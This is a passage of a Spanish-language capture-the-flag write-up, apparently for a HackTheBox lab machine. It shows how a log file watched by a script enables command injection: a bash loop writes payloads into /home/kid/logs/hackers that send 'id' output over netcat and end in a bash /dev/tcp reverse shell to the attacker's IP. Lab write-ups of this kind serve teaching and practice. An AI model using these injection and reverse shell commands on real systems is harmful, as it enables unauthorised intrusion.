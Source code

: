 ...

Entonces podemos crearnos un script que sobreescriba el contenido del archivo `/home/kid/logs/hackers` con nuestro payload:

Como prueba inicial digámosle que nos mande una traza hacia nuestra máquina con `nc`:

```bash
#!/bin/bash

while true; do
    echo "1 2 3;nc 10.10.14.47 4434" > /home/kid/logs/hackers
done
```

> Sencillamente nos aprovechamos que toma toooooda la línea despues del 3. Entonces contamos el proceso y ejecutamos lo nuestro, terminamos (separamos) la ejecución del comando con un simple `;`. Como toda la vida :P

Pongámonos en escucha por el puerto `4434` y vemos si recibimos algo:

```bash
❭ nc -lvp 4434
listening on [any] 4434 ...
```

Ejecutamos el script y estamos atentos :P

![314bash_scanlosers_injectionNC](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/scriptkiddie/314bash_scanlosers_injectionNC.png)

Bien bien, recibimos la petición, así que aprovechémonos de esto para generar una Shell :O

**(**

Pueden probar de todo, si ejecutamos:

```bash
...
echo "1 2 3;id | nc 10.10.14.47 4434" > /home/kid/logs/hackers
...
```

Obtenemos:

```bash
❭ nc -lvp 4434
listening on [any] 4434 ...
10.10.10.226: inverse host lookup failed: Host name lookup failure
connect to [10.10.14.47] from (UNKNOWN) [10.10.10.226] 52764
uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)
```

**)**

Ahora si a por la Shell, solo quería mostrar eso :P

Nuestro script quedaría así:

```bash
#!/bin/bash

while true; do
    echo "1 2 3;bash -c 'bash -i >& /dev/tcp/10.10.14.47/4434 0>&1'" > /home/kid/logs/hackers
done
```
